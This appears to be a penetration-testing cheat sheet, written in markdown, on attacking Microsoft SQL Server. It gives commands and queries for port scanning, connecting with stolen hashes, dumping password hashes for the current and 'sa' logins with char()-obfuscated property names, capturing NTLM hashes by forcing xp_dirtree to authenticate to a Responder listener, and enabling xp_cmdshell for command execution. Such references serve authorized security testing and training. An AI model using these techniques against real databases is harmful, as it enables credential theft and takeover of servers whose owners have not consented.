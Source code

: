 # MSSQL enumeration and exploitation
* [Initial enumeration](#initial-enumeration)
* [Connecting to an MSSQL database](#connecting-to-an-mssql-database)
* [Enumerating a database](#enumerating-a-database)
* [Getting NTLM hashes](#getting-ntlm-hashes)
* [Executing system commands](#executing-system-commands)

## Initial enumeration
```bash
nmap -vv -p 1433 -sT --script=+ms-sql* <ip>
```

## Connecting to an MSSQL database
- Connect to a database using `mssql-cli`:
```bash
mssql-cli -U <username> -P '<password>' -d <database> -S "tcp:<ip>,1433"
mssql-cli -U <username> -P '<password>' -d <database> -S "tcp:<ip>,1433" -E # Windows auth
```
- Or connect using `mssqlclient.py`:
```bash
mssqlclient.py -db <database> <user>:'<password>'@<ip>
mssqlclient.py -db <database> -windows-auth <user>:'<password>'@<ip> # Windows auth
mssqlclient.py -db <database> -hashes LMHASH:NTHASH <user>@<ip> -windows-auth # Using hashes instead of a password
```

## Enumerating a database
- Get version:
```SQL
SELECT @@version; 
```
- Get current database:
```SQL
SELECT db_name(); 
```
- List non-default databases:
```SQL
SELECT name FROM master.sys.databases WHERE name NOT IN ('master', 'tempdb', 'model', 'msdb'); 
```
- Get current user:
```SQL
SELECT original_login();
```
- List user permissions:
```SQL
SELECT * FROM fn_my_permissions(NULL, 'SERVER'); 
```
- Get current user's password hash _(encoded for 1731 hashcat mode)_:
```SQL
SELECT convert(varchar(MAX),(loginproperty(original_login(),(char(080)+char(097)+char(115)+char(115)+char(119)+char(111)+char(114)+char(100)+char(072)+char(097)+char(115)+char(104))) ),1);
```
- List all users:
```SQL
SELECT name FROM sys.syslogins ORDER BY 1;
```
- Get `sa` user's password hash _(encoded for 1731 hashcat mode)_:
```SQL
SELECT convert(varchar(MAX),(loginproperty((char(115)+char(97)),(char(080)+char(097)+char(115)+char(115)+char(119)+char(111)+char(114)+char(100)+char(072)+char(097)+char(115)+char(104))) ),1);
```
- List tables:
```SQL
SELECT table_schema,table_name FROM information_schema.tables ORDER BY 1; 
```
- List table columns:
```SQL
SELECT column_name FROM information_schema.columns WHERE table_name='<table_name>' ORDER BY 1;  
```
- Search for `%user%` like tables:
```SQL
SELECT table_schema,table_name FROM information_schema.tables WHERE lower(table_name) LIKE char(37)+char(117)+char(115)+char(101)+char(114)+char(37) ORDER BY 1 OFFSET 0 ROWS FETCH NEXT 1 ROWS ONLY; -- LIMIT/OFFSET works on 2012+ version 
```

## Getting NTLM hashes
- Listen to SMB incoming connections:
```bash
sudo responder -I tun0
```
- Sending auth SMB request to local machine using SQL:
```SQL
EXEC xp_dirtree '\\<ip>\test';
```

## Executing system commands
- Configure _(if user has privileges to do it)_:
```SQL
EXEC sp_configure 'show advanced options', 1;  
RECONFIGURE;  
EXEC sp_configure 'xp_cmdshell', 1;  
RECONFIGURE; 
```
- Run commands:
```SQL
EXEC xp_cmdshell '<command>';
```
